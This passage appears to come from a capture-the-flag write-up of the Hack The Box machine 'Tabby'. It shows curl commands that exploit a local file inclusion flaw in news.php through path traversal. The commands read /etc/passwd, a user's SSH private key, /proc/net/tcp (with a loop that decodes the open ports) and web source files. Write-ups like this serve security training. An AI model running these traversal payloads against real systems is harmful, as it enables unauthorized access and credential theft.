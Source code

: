 ```bash
curl -s -X GET "http://megahosting.htb/news.php?file=../../../../../etc/passwd" | grep 'sh$'
curl -s -X GET "http://megahosting.htb/news.php?file=../../../../../home/ash/.ssh/id_rsa" | grep 'sh$'
curl -s -X GET "http://megahosting.htb/news.php?file=../../../../../proc/net/fib_trie"
curl -s -X GET "http://megahosting.htb/news.php?file=../../../../../proc/net/tcp"
curl -s -X GET "http://megahosting.htb/news.php?file=../../../../../proc/net/tcp" | awk '{print $2}' | grep -v local_address | awk '{print $2}' FS=':' | sort -u

foreach port in $(curl -s -X GET "http://megahosting.htb/news.php?file=../../../../../proc/net/tcp" | awk '{print $2}' | grep -v local_address | awk '{print $2}' FS=':' | sort -u); do echo -e "[+] Port $port --> $((0x$port))\n"; done
```

<br/>
<img src="{{ site.img_path }}/tabby_writeup/Tabby_07.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/tabby_writeup/Tabby_08.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/tabby_writeup/Tabby_09.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/tabby_writeup/Tabby_10.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/tabby_writeup/Tabby_11.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/tabby_writeup/Tabby_12.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/><br/>

I continue enumerating more the system taking advantage of the vulnerability that the machine has to **LFI**, I observe information related to the open **processes** in the machine and I can observe those related to the **Apache Tomcat** server. I can also see the misconfiguration in the **`news.php`** file, which allows the **LFI** exploit, or rather, the bad programming that should be sanitized.

```bash
curl -s -X GET "http://megahosting.htb/news.php?file=../../../../../proc/schedstat"
curl -s -X GET "http://megahosting.htb/news.php?file=../../../../../proc/sched_debug"
curl -s -X GET "http://megahosting.htb/news.php?file=../../../../../var/www/html/index.html"
curl -s -X GET "http://megahosting.htb/news.php?file=../../../../../var/www/html/index.php"
```

<br/>
<img src="{{ site.img_path }}/tabby_writeup/Tabby_13.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/tabby_writeup/Tabby_14.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/tabby_writeup/Tabby_15.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/tabby_writeup/Tabby_16.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>